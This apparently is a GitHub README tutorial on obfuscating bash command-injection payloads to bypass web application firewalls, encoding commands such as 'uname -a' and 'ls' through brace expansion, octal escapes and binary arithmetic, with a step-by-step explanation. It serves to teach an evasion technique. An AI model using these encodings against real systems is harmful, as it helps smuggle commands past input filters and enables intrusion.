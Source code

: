 # Bash-Command-Injection
Bash Command Injection using binary / Injeção de Comando no Bash utilizando binários

<img src="bash command injection waf bypass.png" align="center">

- [ASCII -> Octal](https://onlineasciitools.com/convert-ascii-to-octal)
- [Decimal -> Binary](https://www.rapidtables.com/convert/number/decimal-to-binary.html)

> Using a **comma** `,` from **Brace Expansion** so they act like a **space**. <br>

<br>

> The reason why we use **Brace Expansion**:
```console
$ echo {ola,mundo}
ola mundo
```

<br>

> `uname -a`: <br>
```bash
${!##\-}<<<{\$\'\\$(($((1<<1))#10100101))\\$(($((1<<1))#10011100))\\$(($((1<<1))#10001101))\\$(($((1<<1))#10011011))\\$(($((1<<1))#10010001))\',\$\'\\$(($((1<<1))#110111))\\$(($((1<<1))#10001101))\'}
```
> In short, this is what's happening: ([Click to see full explanation](#explicação-em-inglês))
- `{\$\'command-1\',\$\'command-2\'}`

<br>

<hr>

<br>

### Full Explanation:

```bash
### idea: @sirifu4k1

# My final payload:
# ${0##\-}<<<$\'\\$(($((1<<1))#10011010))\\$(($((1<<1))#10100011))\'
# Let's understand what the hell is happening here.

## 1.1: ${0##\-}
# ${} is a parameter expansion; "$0" == is the first parameter, which is the script itself.
# Since we're "executing" "$0" straight on the shell, the program that is getting executed is bash
# But on my shell, bash had a little "-" dash sign next to the "b" letter of bash, so I removed it
# using parameter expansion (${0##\-} == removes the dash "-" from "-bash", and we're left with "bash")

## 1.2: <<<
# A "Here String" is used for input redirection from text or a variable.
# For example: (counting the words of a given file called about.txt)
$ wc -l <<< about.txt
1 # (output as an example)

## 1.3: $\' ... \'
# First of all, "$'Something\nSomething-else'" causes escape sequences to be interpreted.
# So we can call an octal to be interpreted to text, just like so (154 in octal == l; 163 in octal == s):
$'\154\163'

# Another example:
$'\151\144' # 151 == i; 144 == d (id gets interpreted as a command)

## 1.4: \\$(( $(( 1 << 1 ))#10011010)) \\$(( $(( 1 << 1))#10100011 ))
# $(()) == POSIX arithmetic expansion
# Note: (man bash)
# Words of the form $'string' are treated specially. The word expands to
# string, with backslash-escaped characters replaced as specified by the ANSI C
# standard.

# Note:
# The "\\" (double backslash) characters are necessary in order to force the shell to pass
# a "\$" (single backslash, dollar sign) to the arithmetic expansion.

### 2.4: $(( $((1<<1))#10011010 ))
# 1<<1 == 2
# base#number == performing calculations between different arithmetic bases [base#]number
#                base is a decimal integer between 2 and 36 that specifies the arithmetic base. (default is base 10)

# Enclosing two arithmetic expansion inside of each other, so that 2#10011010 (octal "154" to binary is "10011010") is equal to 154 (octal)
# Text to octal: "http://www.unit-conversion.info/texttools/octal/"
# Decimal to binary: "https://www.rapidtables.com/convert/number/decimal-to-binary.html"
# 167 150 157 :: 10100111 = w; 10010110 = h; 10011101 = o

### 3.4: $(( $((1<<1))#10100011 ))
# Is exatcly the same concept as I mentioned previously (at 2.4), and we're left with 163 (octal)

# Conclusion:
# This whole mess will give us the result $'\154\163', which is "ls"

# Image explanation, by @sirifu4k1
# https://pbs.twimg.com/media/FqJd-irakAEBPh_.jpg
```
